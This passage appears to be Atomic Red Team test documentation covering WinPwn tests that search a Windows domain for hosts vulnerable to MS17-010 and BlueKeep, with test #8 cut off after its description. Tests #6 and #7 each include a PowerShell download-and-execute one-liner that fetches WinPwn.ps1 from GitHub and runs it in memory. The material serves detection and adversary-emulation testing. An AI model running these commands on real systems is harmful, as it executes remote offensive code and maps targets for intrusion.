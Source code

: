## Atomic Test #6 - WinPwn - MS17-10
Search for MS17-10 vulnerable Windows Servers in the domain using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 97585b04-5be2-40e9-8c31-82157b8af2d6






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
MS17-10 -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - bluekeep
Search for bluekeep vulnerable Windows Systems in the domain using bluekeep function of WinPwn. Can take many minutes to complete (~600 seconds in testing on a small domain).

**Supported Platforms:** Windows


**auto_generated_guid:** 1cca5640-32a9-46e6-b8e0-fabbe2384a73






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
bluekeep -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - fruit
Search for potentially vulnerable web apps (low hanging fruits) using fruit function of WinPwn
